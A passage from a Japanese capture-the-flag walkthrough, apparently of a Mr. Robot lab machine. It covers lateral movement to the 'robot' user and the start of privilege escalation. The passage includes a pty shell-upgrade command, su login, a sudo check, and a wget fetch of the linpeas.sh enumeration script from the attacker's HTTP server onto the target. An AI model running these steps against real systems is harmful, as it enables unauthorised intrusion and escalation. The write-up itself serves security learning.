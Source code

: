 robot ユーザでログインを試みます。が、terminal から実行してねと怒られました（シェルを取得した際にも、tty にアクセスできないと出てましたね）。

```sh
$ su - robot
su: must be run from a terminal
```

そこで、ログインできるよう新たにシェルを立ちあげます。Python コマンドが実行できそうなので、以下のようにシェルを立ち上げるコマンドを実行します。その後またログインしてみると、 robot ユーザでログインに成功しました！
これで `key-2-of-3.txt` もゲットできます。

```sh
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ su - robot
su - robot
Password:  

$ whoami
whoami
robot
```

robot ユーザでのログインに成功したので、次は権限昇格を狙います。

<div class="note info" style="background: #e5f8e2; padding:16px; margin:24px 12px; border-radius:8px;"><span class="fa fa-fw fa-check-circle"></span>

このように、取得したログイン情報を足掛かりにして別のアカウントへ侵入することを横展開やラテラルムーブメントなどと呼びます。上位の権限を取得できる場合は権限昇格と呼びます。

</div>

robot では sudo でのコマンド実行はできないようです。

```sh
$ sudo -l
sudo -l
[sudo] password for robot:

Sorry, user robot may not run sudo on linux.
```

そこで、 `LinPEAS` というツールを使って、特権昇格に使えそうな設定不備がないかを調べてみます。

<div class="note info" style="background: #e5f8e2; padding:16px; margin:24px 12px; border-radius:8px;"><span class="fa fa-fw fa-check-circle"></span>

[LinPEAS](https://github.com/peass-ng/PEASS-ng) は侵入後に特権昇格を狙うための設定不備がないかを表示してくれる強力なツールです。シェルを取得できている場合、スクリプトを持ってくるだけで実行でき、様々な情報を見やすい形で表示してくれます。マスコットがかわいいのに、強力で恐ろしい。

</div>

ローカルマシンで別タブを開き、 `cp /usr/share/peass/linpeas/linpeas.sh .` でスクリプトをコピーしてきます。ターゲットマシンで取得したいので `python3 -m http.server 12346` でサーバを起動します。

ターゲットマシンからローカルマシンのIPとポートを指定して `wget` でアクセスし、スクリプトを取得します（なお、`/home/robot` 配下では書き込み権限がなくエラーになったので、 `/tmp` に移動しています）

`linpeas.sh` に実行権限を付与したら、これを実行して脆弱性を探してみます。

```sh
$ wget 10.4.108.90:12346/linpeas.sh
wget 10.4.108.90:12346/linpeas.sh
--2024-10-27 14:43:42--  http://10.4.108.90:12346/linpeas.sh
Connecting to 10.4.108.90:12346... connected.
HTTP request sent, awaiting response... 200 OK
Length: 827739 (808K) [text/x-sh]
Saving to: ‘linpeas.sh’

100%[======================================>] 827,739      354KB/s   in 2.3s   

2024-10-27 14:43:45 (354 KB/s) - ‘linpeas.sh’ saved [827739/827739]

$ chmod +x linpeas.sh
```